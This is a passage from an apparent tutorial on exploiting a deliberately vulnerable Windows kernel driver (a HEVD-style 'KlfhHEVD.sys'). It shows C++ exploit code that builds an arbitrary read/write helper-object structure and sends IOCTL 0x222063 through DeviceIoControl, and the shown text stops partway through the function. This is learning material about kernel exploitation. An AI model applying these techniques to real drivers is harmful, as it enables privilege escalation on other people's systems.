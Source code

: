 Now yes, let's move on to the exploitation.

### Exploitation
We'll start from the code in the previous section, the one that allowed us to extract the address of `KlfhHEVD.sys`.
```cpp
...
	Sleep(500);

	if (!exploit(hFile, addrKrnl)) {
		printf("\n[ERROR on EXPLOITATION o_0]\n");
		CloseHandle(hFile);
		return -1;
	}
	
	return 0;
}
```
**NOTE: Between function calls I like to leave a `Sleep`, at least in this case, since it triggers loads and I prefer to give more time between both functions.**

```cpp
...
typedef struct _ARW_HELPER_OBJECT_IO
{
	PVOID HelperObjectAddress;
	PVOID Name;
	SIZE_T Length;
} ARW_HELPER_OBJECT_IO, * PARW_HELPER_OBJECT_IO;
...
```
The first step is to declare the structure we're going to use.

Next, we start with the function:
```cpp
bool exploit(HANDLE hFile, UINT64 addrKrnl) {

	ARW_HELPER_OBJECT_IO HelperArray[5000] = { 0 };

	printf("\n[HelperObjArray] -> 0x%p\n", HelperArray);

	ULONG bytes;

	ARW_HELPER_OBJECT_IO MyArwHelpObjIo = { 0 };
	MyArwHelpObjIo.Length = 8;

	DeviceIoControl(hFile, 0x222063, &MyArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &MyArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);
...
```
We prepare an array with 5000 members, declare our `MyArwHelpObjIo` struct and create it by calling **`CreateArbitraryReadWriteHelperObjectNonPagedPoolNx`**.
